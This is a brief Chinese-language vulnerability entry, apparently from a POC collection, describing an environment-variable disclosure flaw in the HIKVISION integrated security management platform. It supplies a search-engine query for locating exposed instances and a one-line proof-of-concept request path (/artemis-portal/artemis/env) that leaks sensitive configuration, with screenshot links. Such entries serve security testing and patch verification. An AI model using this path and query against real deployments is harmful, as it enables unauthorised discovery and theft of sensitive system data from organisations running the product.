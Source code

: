 # HiKVISION 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

<a-checkbox checked>HIKVISION 综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HIKVISION-综合安防管理平台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647517887798-06e24b68-d89a-4223-aee3-50ca22081807-1646007.png)

验证POC

```javascript
/artemis-portal/artemis/env 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679555425852-b9369d03-d3e3-42dc-af4c-f4140ccfbba6.png)